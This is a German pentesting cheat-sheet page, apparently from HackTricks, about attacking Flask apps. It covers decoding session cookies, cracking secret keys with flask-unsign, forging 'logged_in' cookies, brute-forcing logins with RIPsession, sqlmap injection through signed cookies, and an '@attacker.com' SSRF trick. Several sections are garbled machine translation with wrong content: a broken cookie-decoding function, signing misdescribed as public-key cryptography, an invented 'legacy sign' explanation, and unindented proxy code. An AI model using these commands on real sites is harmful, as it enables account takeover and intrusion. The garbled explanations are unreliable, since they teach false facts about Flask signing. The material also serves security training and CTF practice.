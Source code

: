 # Flask

<details>

<summary><strong>Lernen Sie AWS-Hacking von Grund auf mit</strong> <a href="https://training.hacktricks.xyz/courses/arte"><strong>htARTE (HackTricks AWS Red Team Expert)</strong></a><strong>!</strong></summary>

Andere Möglichkeiten, HackTricks zu unterstützen:

* Wenn Sie Ihr **Unternehmen in HackTricks bewerben möchten** oder **HackTricks als PDF herunterladen möchten**, überprüfen Sie die [**ABONNEMENTPLÄNE**](https://github.com/sponsors/carlospolop)!
* Holen Sie sich das [**offizielle PEASS & HackTricks-Merchandise**](https://peass.creator-spring.com)
* Entdecken Sie [**The PEASS Family**](https://opensea.io/collection/the-peass-family), unsere Sammlung exklusiver [**NFTs**](https://opensea.io/collection/the-peass-family)
* **Treten Sie der** 💬 [**Discord-Gruppe**](https://discord.gg/hRep4RUj7f) oder der [**Telegram-Gruppe**](https://t.me/peass) bei oder **folgen** Sie uns auf **Twitter** 🐦 [**@carlospolopm**](https://twitter.com/hacktricks_live)**.**
* **Teilen Sie Ihre Hacking-Tricks, indem Sie PRs an die** [**HackTricks**](https://github.com/carlospolop/hacktricks) und [**HackTricks Cloud**](https://github.com/carlospolop/hacktricks-cloud) **GitHub-Repositories** senden.

</details>

<figure><img src="../../.gitbook/assets/image (9) (1) (2).png" alt=""><figcaption></figcaption></figure>

Verwenden Sie [**Trickest**](https://trickest.com/?utm\_campaign=hacktrics\&utm\_medium=banner\&utm\_source=hacktricks), um Workflows einfach zu erstellen und zu automatisieren, die von den fortschrittlichsten Community-Tools der Welt unterstützt werden.\
Erhalten Sie noch heute Zugriff:

{% embed url="https://trickest.com/?utm_campaign=hacktrics&utm_medium=banner&utm_source=hacktricks" %}

**Wahrscheinlich ist eine Flask-Anwendung in einem CTF mit** [**SSTI**](../../pentesting-web/ssti-server-side-template-injection/)** verbunden.**

## Cookies

Der Standardname für die Sitzungs-Cookie ist **`session`**.

### Decoder

Online Flask-Cookie-Decoder: [https://www.kirsle.net/wizards/flask-session.cgi](https://www.kirsle.net/wizards/flask-session.cgi)

#### Manuell

Holen Sie sich den ersten Teil des Cookies bis zum ersten Punkt und decodieren Sie ihn mit Base64:
```bash
echo "ImhlbGxvIg" | base64 -d
```
Der Cookie wird auch mit einem Passwort signiert

### **Flask-Unsign**

Befehlszeilentool zum Abrufen, Decodieren, Brute-Forcen und Erstellen von Sitzungscookies einer Flask-Anwendung durch das Raten von geheimen Schlüsseln.

{% embed url="https://pypi.org/project/flask-unsign/" %}
```bash
pip3 install flask-unsign
```
#### **Cookie entschlüsseln**

To decode a Flask session cookie, you can use the `itsdangerous` library. The session cookie is usually named `session` and is base64 encoded. The decoded cookie contains a serialized JSON object with the session data.

```python
import base64
import zlib
import json
from itsdangerous import URLSafeTimedSerializer

def decode_flask_cookie(secret_key, cookie_value):
    signer = URLSafeTimedSerializer(secret_key)
    try:
        decoded_data = signer.loads(cookie_value)
        decompressed_data = zlib.decompress(base64.b64decode(decoded_data))
        session_data = json.loads(decompressed_data)
        return session_data
    except Exception as e:
        print(f"Error decoding cookie: {e}")
        return None
```

To use this function, you need to provide the secret key used to sign the cookie and the value of the cookie itself. The function will return the decoded session data as a Python dictionary.

```python
secret_key = "your_secret_key"
cookie_value = "your_cookie_value"

decoded_session = decode_flask_cookie(secret_key, cookie_value)
print(decoded_session)
```

Remember to replace `"your_secret_key"` with the actual secret key used by the Flask application and `"your_cookie_value"` with the value of the session cookie you want to decode.
```bash
flask-unsign --decode --cookie 'eyJsb2dnZWRfaW4iOmZhbHNlfQ.XDuWxQ.E2Pyb6x3w-NODuflHoGnZOEpbH8'
```
#### **Brute Force**

Brute Force ist eine Methode, bei der ein Angreifer systematisch alle möglichen Kombinationen von Benutzernamen und Passwörtern ausprobiert, um Zugriff auf ein System zu erlangen. Diese Methode kann verwendet werden, um die Sicherheit von Webanwendungen zu testen, indem sie versucht, sich mit verschiedenen Kombinationen von Anmeldeinformationen anzumelden. Es ist wichtig zu beachten, dass Brute Force-Angriffe zeitaufwändig sein können und dass die Erfolgschancen von Faktoren wie der Länge und Komplexität der Passwörter abhängen. Es wird empfohlen, starke Passwörter zu verwenden und Sicherheitsmaßnahmen wie Kontosperrungen nach einer bestimmten Anzahl von fehlgeschlagenen Anmeldeversuchen zu implementieren, um Brute Force-Angriffe zu erschweren.
```bash
flask-unsign --wordlist /usr/share/wordlists/rockyou.txt --unsign --cookie '<cookie>' --no-literal-eval
```
#### **Signierung**

The signing process ensures the integrity and authenticity of data. It involves using a private key to generate a digital signature, which can be verified using the corresponding public key. This ensures that the data has not been tampered with and that it originated from the expected source.

Die Signierung stellt die Integrität und Authentizität von Daten sicher. Dabei wird ein privater Schlüssel verwendet, um eine digitale Signatur zu generieren, die mithilfe des entsprechenden öffentlichen Schlüssels überprüft werden kann. Dadurch wird sichergestellt, dass die Daten nicht manipuliert wurden und von der erwarteten Quelle stammen.
```bash
flask-unsign --sign --cookie "{'logged_in': True}" --secret 'CHANGEME'
```
#### Signieren mit veralteten (alten Versionen)

In einigen älteren Versionen von Flask wurde die Signaturfunktion `sign` verwendet, um Daten zu signieren. Diese Funktion ist jedoch anfällig für verschiedene Angriffe und sollte nicht mehr verwendet werden. Stattdessen sollte die sicherere Funktion `signer` verwendet werden, die in neueren Versionen von Flask verfügbar ist.

Um die `signer`-Funktion zu verwenden, müssen Sie zuerst ein Signierungsobjekt erstellen. Dies kann mit dem `itsdangerous`-Modul erfolgen, das in Flask enthalten ist. Verwenden Sie den folgenden Code, um ein Signierungsobjekt zu erstellen:

```python
from itsdangerous import URLSafeTimedSerializer

secret_key = "geheimeschluessel"
signer = URLSafeTimedSerializer(secret_key)
```

Sobald Sie das Signierungsobjekt erstellt haben, können Sie die `dumps`-Methode verwenden, um Daten zu signieren, und die `loads`-Methode, um die signierten Daten zu überprüfen und wiederherzustellen. Hier ist ein Beispiel, wie Sie die `dumps`- und `loads`-Methoden verwenden können:

```python
data = "zu signierende daten"
signed_data = signer.dumps(data)
restored_data = signer.loads(signed_data)
```

Stellen Sie sicher, dass Sie den geheimen Schlüssel sicher aufbewahren und nicht in öffentlichen Repositories oder in der Produktionsumgebung speichern.
```bash
flask-unsign --sign --cookie "{'logged_in': True}" --secret 'CHANGEME' --legacy
```
### **RIPsession**

Befehlszeilentool zum Brute-Forcen von Websites unter Verwendung von mit flask-unsign erstellten Cookies.

{% embed url="https://github.com/Tagvi/ripsession" %}
```bash
ripsession -u 10.10.11.100 -c "{'logged_in': True, 'username': 'changeMe'}" -s password123 -f "user doesn't exist" -w wordlist.txt
```
### SQLi in Flask Session-Cookie mit SQLmap

[**Dieses Beispiel**](../../pentesting-web/sql-injection/sqlmap/#eval) verwendet die sqlmap `eval`-Option, um automatisch sqlmap-Payloads für Flask mit einem bekannten Geheimnis zu signieren.

## Flask-Proxy zu SSRF

[**In diesem Artikel**](https://rafa.hashnode.dev/exploiting-http-parsers-inconsistencies) wird erklärt, wie Flask eine Anfrage zulässt, die mit dem Zeichen "@" beginnt:
```http
GET @/ HTTP/1.1
Host: target.com
Connection: close
```
Welches Szenario ist in folgendem Fall gegeben:
```python
from flask import Flask
from requests import get

app = Flask('__main__')
SITE_NAME = 'https://google.com/'

@app.route('/', defaults={'path': ''})
@app.route('/<path:path>')
def proxy(path):
return get(f'{SITE_NAME}{path}').content

app.run(host='0.0.0.0', port=8080)
```
Es könnte ermöglichen, etwas wie "@attacker.com" einzuführen, um einen **SSRF** zu verursachen.



<figure><img src="../../.gitbook/assets/image (9) (1) (2).png" alt=""><figcaption></figcaption></figure>

Verwenden Sie [**Trickest**](https://trickest.com/?utm\_campaign=hacktrics\&utm\_medium=banner\&utm\_source=hacktricks), um Workflows einfach zu erstellen und zu automatisieren, die von den fortschrittlichsten Community-Tools der Welt unterstützt werden.\
Erhalten Sie noch heute Zugriff:

{% embed url="https://trickest.com/?utm_campaign=hacktrics&utm_medium=banner&utm_source=hacktricks" %}

<details>

<summary><strong>Lernen Sie AWS-Hacking von Null auf Held mit</strong> <a href="https://training.hacktricks.xyz/courses/arte"><strong>htARTE (HackTricks AWS Red Team Expert)</strong></a><strong>!</strong></summary>

Andere Möglichkeiten, HackTricks zu unterstützen:

* Wenn Sie Ihr **Unternehmen in HackTricks bewerben möchten** oder **HackTricks als PDF herunterladen möchten**, überprüfen Sie die [**ABONNEMENTPLÄNE**](https://github.com/sponsors/carlospolop)!
* Holen Sie sich das [**offizielle PEASS & HackTricks-Merchandise**](https://peass.creator-spring.com)
* Entdecken Sie [**The PEASS Family**](https://opensea.io/collection/the-peass-family), unsere Sammlung exklusiver [**NFTs**](https://opensea.io/collection/the-peass-family)
* **Treten Sie der** 💬 [**Discord-Gruppe**](https://discord.gg/hRep4RUj7f) oder der [**Telegram-Gruppe**](https://t.me/peass) bei oder **folgen** Sie uns auf **Twitter** 🐦 [**@carlospolopm**](https://twitter.com/hacktricks_live)**.**
* **Teilen Sie Ihre Hacking-Tricks, indem Sie PRs an die** [**HackTricks**](https://github.com/carlospolop/hacktricks) und [**HackTricks Cloud**](https://github.com/carlospolop/hacktricks-cloud) GitHub-Repositories senden.

</details>
